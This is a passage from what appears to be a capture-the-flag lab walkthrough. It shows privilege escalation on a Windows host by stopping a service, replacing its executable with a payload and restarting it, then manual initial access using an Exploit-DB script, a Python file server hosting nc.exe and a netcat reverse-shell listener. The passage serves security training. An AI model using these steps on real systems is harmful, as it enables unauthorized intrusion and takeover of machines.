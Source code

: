 Switch to a shell, stop service, replace executable, and start service:

```text
meterpreter > shell
C:\Users\bill\AppData\Local\Temp>sc stop AdvancedSystemCareService9
C:\Users\bill\AppData\Local\Temp>copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): Yes
C:\Users\bill\AppData\Local\Temp>sc start AdvancedSystemCareService9
```

And when the connection is made, get the root flag:

    C:\Users\Administrator\Desktop>type root.txt
    type root.txt

## Initial access without metasploit

[Download the exploit](https://www.exploit-db.com/raw/39161) by copying the raw text and rename it into something like
`39161.py`. Edit the script: Set the local IP address and Port to those of the attack machine. The script 
is a python2 script. It will not work with python3 without editing.

The payload script uses port 80 for the file web server by default. If the 80 port is in use by another service, 
add `+":8000"+` after the `ip_addr` variable in that long `vbs` parameter. 

On Kali, in `~/Downloads`, copy the netcat binary from `/usr/share/windows-binaries/nc.exe` 

    # cp /usr/share/windows-binaries/nc.exe .

If not on Kali, [Download the netcat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) and 
rename it to `nc.exe` to work with the exploit script.

On the attack machine, in a second terminal in the directory with the exploit (`~/Downloads`), start a Python web 
server: 

    # python3 -m http.server 80

Start a netcat listener on the attack machine in a third terminal:

    # nc -lvnp 443

There are now 3 terminal tabs open: One running the exploit, one running the python http server, and one running 
the netcat listener.

Run the exploit in the first terminal. The script has to be run twice for it to work. The first time will pull the 
netcat binary to the target and the second time will execute the payload to gain a callback within the listener:
